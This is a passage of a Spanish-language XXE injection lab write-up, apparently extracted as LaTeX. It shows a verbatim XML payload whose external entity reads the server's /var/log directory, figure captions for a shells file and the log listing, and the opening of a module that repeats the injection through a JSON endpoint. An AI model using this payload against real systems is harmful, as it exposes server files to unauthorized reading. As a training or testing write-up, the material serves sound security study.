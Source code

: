 \documentclass[12pt,oneside,a4paper]{book}
\begin{document}
\begin{enumerate}
\begin{enumerate}
\begin{center}
            \vspace{0.1em}
            
            Fig. 39: Fichero shells
        \end{center}

        \newpage

        \textbf{Directorio /var/log}

        \vspace{1em}

        \begin{verbatim}
<?xml version="1.0"?>
    <!DOCTYPE replace [<!ENTITY xxe_attack SYSTEM "file:///var/log/"> ]>
        <comment>
            <text>
                &xxe_attack;
            </text>
        </comment>
        \end{verbatim}

        \vspace{2em}

        \begin{center}
            \includegraphics[width=12cm]{img/xxe14.png}
            
            \vspace{0.1em}
            
            Fig. 40: Directorio /var/log/
        \end{center}

        \vspace{2em}

        \textbf{Módulo 7}
        
        \vspace{1em}

        \hspace{20pt}
        Se plantea realizar la misma inyección del módulo anterior, pero esta vez mediante un endpoint \textit{JSON}. Para esto, se secuestra la solicitud enviada al servidor de la misma forma que el módulo anterior:
        

\end{enumerate}
\end{enumerate}
\end{document}

